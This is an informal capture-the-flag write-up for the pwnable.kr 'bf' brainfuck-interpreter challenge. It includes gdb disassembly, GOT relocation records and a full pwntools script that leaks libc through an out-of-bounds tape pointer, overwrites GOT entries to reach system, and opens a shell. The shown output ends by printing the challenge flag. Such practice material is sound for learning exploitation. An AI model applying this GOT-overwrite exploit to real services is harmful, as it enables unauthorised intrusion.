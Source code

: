 *Brain fuck write up*
This did hurt my head but a once as I got my head over it, it wasn't too bad. 

_
I made a simple brain-fuck language emulation program written in C. 
The [ ] commands are not implemented yet. However the rest functionality seems working fine. 
Find a bug and exploit it to get a shell. 

Download : http://pwnable.kr/bin/bf
Download : http://pwnable.kr/bin/bf_libc.so

Running at : nc pwnable.kr 9001
*checksec bf*

*Stage one. What am I working with?...*
check
<code>
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    
</code>

<p> 
We have a 32bit file with a canray which may be detected if we just jump in with a buffer overflow. 
With it having NX enabled we will have to do a ROP chain on this one. 
</p>

*Stage two have a look* 
```assembly
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048671 <+0>:	push   %ebp
   0x08048672 <+1>:	mov    %esp,%ebp
   0x08048674 <+3>:	push   %ebx
   0x08048675 <+4>:	and    $0xfffffff0,%esp
   0x08048678 <+7>:	sub    $0x430,%esp
   0x0804867e <+13>:	mov    0xc(%ebp),%eax
   0x08048681 <+16>:	mov    %eax,0x1c(%esp)
   0x08048685 <+20>:	mov    %gs:0x14,%eax
   0x0804868b <+26>:	mov    %eax,0x42c(%esp)
   0x08048692 <+33>:	xor    %eax,%eax
   0x08048694 <+35>:	mov    0x804a060,%eax
   0x08048699 <+40>:	movl   $0x0,0xc(%esp)
   0x080486a1 <+48>:	movl   $0x2,0x8(%esp)
   0x080486a9 <+56>:	movl   $0x0,0x4(%esp)
   0x080486b1 <+64>:	mov    %eax,(%esp)
   0x080486b4 <+67>:	call   0x80484b0 <setvbuf@plt>
   0x080486b9 <+72>:	mov    0x804a040,%eax
   0x080486be <+77>:	movl   $0x0,0xc(%esp)
   0x080486c6 <+85>:	movl   $0x1,0x8(%esp)
   0x080486ce <+93>:	movl   $0x0,0x4(%esp)
   0x080486d6 <+101>:	mov    %eax,(%esp)
   0x080486d9 <+104>:	call   0x80484b0 <setvbuf@plt>
--Type <RET> for more, q to quit, c to continue without paging--
   0x080486de <+109>:	movl   $0x804a0a0,0x804a080
   0x080486e8 <+119>:	movl   $0x804890c,(%esp)
   0x080486ef <+126>:	call   0x8048470 <puts@plt>
   0x080486f4 <+131>:	movl   $0x8048934,(%esp)
   0x080486fb <+138>:	call   0x8048470 <puts@plt>
   0x08048700 <+143>:	movl   $0x400,0x8(%esp)
   0x08048708 <+151>:	movl   $0x0,0x4(%esp)
   0x08048710 <+159>:	lea    0x2c(%esp),%eax
   0x08048714 <+163>:	mov    %eax,(%esp)
   0x08048717 <+166>:	call   0x80484c0 <memset@plt> <---- interesting 
   0x0804871c <+171>:	mov    0x804a040,%eax
   0x08048721 <+176>:	mov    %eax,0x8(%esp) <--- interesting
   0x08048725 <+180>:	movl   $0x400,0x4(%esp)
   0x0804872d <+188>:	lea    0x2c(%esp),%eax
   0x08048731 <+192>:	mov    %eax,(%esp)
   0x08048734 <+195>:	call   0x8048450 <fgets@plt>   <----- Interesting
   0x08048739 <+200>:	movl   $0x0,0x28(%esp)
   0x08048741 <+208>:	jmp    0x8048760 <main+239>
   0x08048743 <+210>:	lea    0x2c(%esp),%edx
   0x08048747 <+214>:	mov    0x28(%esp),%eax
   0x0804874b <+218>:	add    %edx,%eax
   0x0804874d <+220>:	movzbl (%eax),%eax
   0x08048750 <+223>:	movsbl %al,%eax
   0x08048753 <+226>:	mov    %eax,(%esp)
   0x08048756 <+229>:	call   0x80485dc <do_brainfuck> <--- Main function ------>
   0x0804875b <+234>:	addl   $0x1,0x28(%esp)
   0x08048760 <+239>:	mov    0x28(%esp),%ebx
   0x08048764 <+243>:	lea    0x2c(%esp),%eax
   0x08048768 <+247>:	mov    %eax,(%esp)
   0x0804876b <+250>:	call   0x8048490 <strlen@plt>
   0x08048770 <+255>:	cmp    %eax,%ebx
   0x08048772 <+257>:	jb     0x8048743 <main+210>
   0x08048774 <+259>:	mov    $0x0,%eax
   0x08048779 <+264>:	mov    0x42c(%esp),%edx
   0x08048780 <+271>:	xor    %gs:0x14,%edx
   0x08048787 <+278>:	je     0x804878e <main+285>
   0x08048789 <+280>:	call   0x8048460 <__stack_chk_fail@plt>
   0x0804878e <+285>:	mov    -0x4(%ebp),%ebx
   0x08048791 <+288>:	leave  
   0x08048792 <+289>:	ret    
End of assembler dump.
(gdb) 

-----Brain fuck function------

(gdb) disassemble do_brainfuck
Dump of assembler code for function do_brainfuck:
   0x080485dc <+0>:	push   %ebp
   0x080485dd <+1>:	mov    %esp,%ebp
   0x080485df <+3>:	push   %ebx
   0x080485e0 <+4>:	sub    $0x24,%esp
   0x080485e3 <+7>:	mov    0x8(%ebp),%eax
   0x080485e6 <+10>:	mov    %al,-0xc(%ebp)
   0x080485e9 <+13>:	movsbl -0xc(%ebp),%eax
   0x080485ed <+17>:	sub    $0x2b,%eax
   0x080485f0 <+20>:	cmp    $0x30,%eax
   0x080485f3 <+23>:	ja     0x804866b <do_brainfuck+143>
   0x080485f5 <+25>:	mov    0x8048848(,%eax,4),%eax
   0x080485fc <+32>:	jmp    *%eax
   0x080485fe <+34>:	mov    0x804a080,%eax
   0x08048603 <+39>:	add    $0x1,%eax
   0x08048606 <+42>:	mov    %eax,0x804a080
   0x0804860b <+47>:	jmp    0x804866b <do_brainfuck+143>
   0x0804860d <+49>:	mov    0x804a080,%eax
   0x08048612 <+54>:	sub    $0x1,%eax
   0x08048615 <+57>:	mov    %eax,0x804a080
   0x0804861a <+62>:	jmp    0x804866b <do_brainfuck+143>
   0x0804861c <+64>:	mov    0x804a080,%eax
   0x08048621 <+69>:	movzbl (%eax),%edx
   0x08048624 <+72>:	add    $0x1,%edx
   0x08048627 <+75>:	mov    %dl,(%eax)
   0x08048629 <+77>:	jmp    0x804866b <do_brainfuck+143>
   0x0804862b <+79>:	mov    0x804a080,%eax
   0x08048630 <+84>:	movzbl (%eax),%edx
   0x08048633 <+87>:	sub    $0x1,%edx
   0x08048636 <+90>:	mov    %dl,(%eax)
   0x08048638 <+92>:	jmp    0x804866b <do_brainfuck+143>
   0x0804863a <+94>:	mov    0x804a080,%eax
   0x0804863f <+99>:	movzbl (%eax),%eax
   0x08048642 <+102>:	movsbl %al,%eax
   0x08048645 <+105>:	mov    %eax,(%esp)
   0x08048648 <+108>:	call   0x80484d0 <putchar@plt>
   0x0804864d <+113>:	jmp    0x804866b <do_brainfuck+143>
   0x0804864f <+115>:	mov    0x804a080,%ebx
   0x08048655 <+121>:	call   0x8048440 <getchar@plt>
   0x0804865a <+126>:	mov    %al,(%ebx)
   0x0804865c <+128>:	jmp    0x804866b <do_brainfuck+143>
   0x0804865e <+130>:	movl   $0x8048830,(%esp)
   0x08048665 <+137>:	call   0x8048470 <puts@plt>
   0x0804866a <+142>:	nop
   0x0804866b <+143>:	add    $0x24,%esp
   0x0804866e <+146>:	pop    %ebx
   0x0804866f <+147>:	pop    %ebp
   0x08048670 <+148>:	ret 
```


<p>
I cant copy some of the dump from EDB there is a pointer 
0x804a0a0 to a funciton we need to use. 
   </P>

```assembly
<p>
so we need to write a rop gadget soon, we use a sys func in the code to overwrite. 
</P
<p>
call a new function we write use brain fuck to help us 
</p>
<p>
The two mostly fun functions are memstet and fgets:
https://pvs-studio.com/en/blog/posts/cpp/0360/
</p>
Time to find theese Addresses 
```assembly
YNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ffc R_386_GLOB_DAT    __gmon_start__
0804a040 R_386_COPY        stdin@@GLIBC_2.0
0804a060 R_386_COPY        stdout@@GLIBC_2.0
0804a00c R_386_JUMP_SLOT   getchar@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   fgets@GLIBC_2.0 <-----Here
0804a014 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a018 R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __gmon_start__
0804a020 R_386_JUMP_SLOT   strlen@GLIBC_2.0
0804a024 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a028 R_386_JUMP_SLOT   setvbuf@GLIBC_2.0
0804a02c R_386_JUMP_SLOT   memset@GLIBC_2.0  <------- Here 
0804a030 R_386_JUMP_SLOT   putchar@GLIBC_2.0
```

```python 
#!/usr/bin/env python
from pwn import *
# Remote EXP
libc = ELF('./bf_libc.so')
p = remote('pwnable.kr', 9001)
# Local EXP
p.recvline_startswith('type')
payload = '<' * (0x0804A0A0 - 0x0804A010) #pointer P and fgets
payload += '.>' * 4
payload += '<' * 4
payload += ',>' * 4
payload += '>' * (0x0804A02C - 0x0804A014) #rop chain call 0804a02c R_386_JUMP_SLOT   memset@GLIBC_2.0  <------- Here  and 0804a014 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
payload += ',>' * 4
payload += ',>' * 4
payload += '.'
p.sendline(payload) #semd payload
fgets_addr = p.recvn(4)[::-1].encode('hex')
system_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['system']
gets_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['gets']
p.send(p32(system_addr))
p.send(p32(gets_addr))
p.send(p32(0x08048671))
p.sendline('/bin/sh')
p.interactive()
```

```shell
 '/pwnble/BrainFuck/bf_libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwnable.kr on port 9001: Done
[*] Switching to interactive mode
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
$ ls
brainfuck
flag
libc-2.23.so
log
super.pl
$ cat flag
BrainFuck? what a weird language..
$  
